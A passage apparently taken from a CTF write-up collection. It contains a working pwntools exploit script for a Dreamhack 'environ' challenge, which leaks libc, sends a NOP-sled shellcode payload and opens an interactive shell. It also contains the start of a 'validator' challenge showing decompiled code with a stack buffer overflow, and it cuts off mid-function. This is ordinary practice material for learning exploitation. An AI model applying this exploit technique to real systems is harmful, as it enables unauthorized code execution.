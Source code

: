```


script 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./environ_patched')
libc = ELF('./libc.so.6')
p = process(exe.path)
#p = remote('host3.dreamhack.games', 15553)
p.recvuntil(b': ')
leak = int(p.recvline().strip(),16)
shellcode = asm(shellcraft.sh())
print(len(shellcode))
print("leak: ",hex(leak))
#gdb.attach(p)
libc.address = leak -3954208
print("libc: ",hex(libc.address))
print("env: ",hex(libc.sym.__environ))
p.sendlineafter(b'Size: ',str(330))
input()
p.sendafter(b'Data: ',b'\x90'*280 + shellcode)
p.sendlineafter("=",str(libc.sym.__environ))
#gdb.attach(p)

p.interactive()
```

-----------


16 . validator
-------

source : 

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-80h]

  memset(&s, 0, 0x10uLL);
  read(0, &s, 0x400uLL);
  validate(&s, 128LL);
  return 0;
}
```

validate : 


```
__int64 __fastcall validate(__int64 a1, unsigned __int64 a2)
{
  unsigned int i; // [rsp+1Ch] [rbp-4h]
  signed int j; // [rsp+1Ch] [rbp-4h]
